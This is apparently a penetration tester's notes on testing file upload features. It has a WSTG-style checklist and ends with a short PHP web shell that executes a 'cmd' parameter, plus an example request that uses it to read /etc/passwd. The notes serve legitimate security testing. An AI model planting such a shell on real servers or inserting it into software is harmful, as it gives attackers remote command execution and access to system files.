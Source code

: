 # File Uoload

Tags: File Upload, insecure design

tools: exiftool

### WSTG Testing methodology

- Study the applications logical requirements.
- Prepare a library of files that are “not approved” for upload that may contain files such as: jsp, exe, or HTML files containing script.
- In the application navigate to the file submission or upload mechanism.
- Submit the “not approved” file for upload and verify that they are properly prevented from uploading
- Check if the website only do file type check in client-side JavaScript
- Check if the website only check the file type by “Content-Type” in HTTP request.
- Check if the website only check by the file extension.
- Check if other uploaded files can be accessed directly by specified URL.
- Check if the uploaded file can include code or script injection.
- Check if there is any file path checking for uploaded files.
Especially, hackers may compress files with specified path in ZIP so
that the unzip files can be uploaded to intended path after uploading
and unzip.
- Identify the file upload functionality.
- Review the project documentation to identify what file types are
considered acceptable, and what types would be considered dangerous or
malicious.
    - If documentation is not available then consider what would be appropriate based on the purpose of the application.
- Determine how the uploaded files are processed.
- Obtain or create a set of malicious files for testing.
- Try to upload the malicious files to the application and determine whether it is accepted and processed.

### Dont forget fuck with Web Shells

```
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Set your IP address here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```

```jsx
https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd
```
